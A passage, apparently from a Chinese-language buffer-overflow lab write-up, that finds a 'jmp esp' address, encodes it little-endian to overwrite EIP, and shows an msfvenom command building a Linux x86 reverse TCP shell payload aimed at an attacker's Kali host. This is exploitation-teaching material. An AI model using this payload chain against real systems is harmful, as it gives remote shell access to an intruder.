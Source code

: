 ![image-20230913151500870](./imgs/image-20230913151500870.png)

找到 `jmp esp` 指令并记录其地址（`0x08049d55`） 

由于机器指令需要反写，转化为16进制
```
  08049d55---->559d0408---->\x55\x9d\x04\x08（需要写入EIP的内容）
```

  使用msf构造反弹shell

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.8.8 LPORT=6868 -b "\x00" -f python

# LHOST：改为 kali 的 IP；
# LPORT：改为监听反弹 shell 的端口号；
# -b "\x00"：过滤坏字符（’\0’），避免输入提前终止
```

![image-20230913153347210](./imgs/image-20230913153347210.png)
